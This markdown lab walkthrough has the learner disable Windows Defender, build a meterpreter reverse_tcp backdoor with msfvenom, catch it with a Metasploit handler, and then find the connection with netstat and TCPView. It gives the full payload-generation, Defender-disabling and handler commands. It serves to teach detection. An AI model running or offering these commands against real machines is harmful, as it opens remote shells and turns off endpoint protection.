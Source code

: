 # WarmUp

Create a malware with msfvenom, execute it on the victim machine and investigate with built-in win tools
Let's start it.

### Step 1

Open a Terminal as Administrator and select "Yes" at UAC prompt.
In the default Powershell window, run the following command to disable Defedner. 
Remember, our goal here is not bypass endpoint protection.

`Set-MpPreference -DisableRealtimeMonitoring $true`

Check if Defender is really turned off with (should be False):

`Get-MpComputerStatus | select RealTimeProtectionEnabled`

### Step 2

First, open an Terminal window as Administrator (CTRL + Click)
![](attachments/warmup_01.png)

Click Yes at the User the User Account Control Prompt.

Open a Kali linux command prompt: 
![](attachments/warmup_02.png)

On the Kali console, check the IP address with:

```bash
ifconfig
```

![](attachments/warmup_03.png)

Mark the IP address of the Kali linux machine eth0 interface. Your IP will be DIFFERENT!

Run the following command to create a simple backdoor.

`sudo su -`

`msfvenom --platform Windows -a x86 -p windows/meterpreter/reverse_tcp lhost=<YOUR ETH0 IP> lport=4444 -f exe -o /tmp/beliveme.exe`

`ls -l /tmp/beliveme.exe`

Copy the malware to the share folder accesible by the Victim machine
`cp /tmp/beliveme.exe /mnt/c/temp`

`ls -l /mnt/c/temp/`

Now, we need to start the handler on attacker (Linux) machine. We need one more shell to the Linux box. Select the down carrot from the upper tabs on the Winodws Terminal and select kali-linux

![](attachments/warmup_04.png)

Become a root:

`sudo su -`

Start the metasploit handler:

$`msfconsole -q`

msf6 > `use exploit/multi/handler`

msf6 exploit(multi/handler) > `set PAYLOAD windows/meterpreter/reverse_tcp`

msf6 exploit(multi/handler) > `set LHOST <YOUR ETH0 IP>` Your IP will be DIFFERENT

msf6 exploit(multi/handler) > `exploit`
![](attachments/warmup_05.png)

Open a Windows command prompt, by selecting the down carrot from the the Windows Terminal.
Once it's opened, run these commands:

`cd \temp`

`beliveme.exe`

You should have similar output:

![](attachments/warmup_06.png)

### step 3

Now that we have a backdoor connections, let's investigate it. We know what to look for..this time! :)
Have an administrator terminal session ready and execute the following command:
TIPP1: -b switch needs admin rights and it's very usefull. It shows the executable involved in creating each connections or listening port.

```cmd
netstat -naob
```
![](attachments/warmup_07.png)

TIPP2: You can check the help for netstat (or any other commands) cmd switches

```cmd
netstat /?
```
![](attachments/warmup_08.png)

List only the ESTABLISHED connections:
```cmd
netstat -naob | findstr "ESTABLISHED"
```

List only the LISTENING connections:
```cmd
netstat -naob | findstr "LISTENING"
```

If you have RDP (or similar) access you can use TCPView application from the SysInternals package
![](attachments/warmup_20.png)


### step 4

### step 5
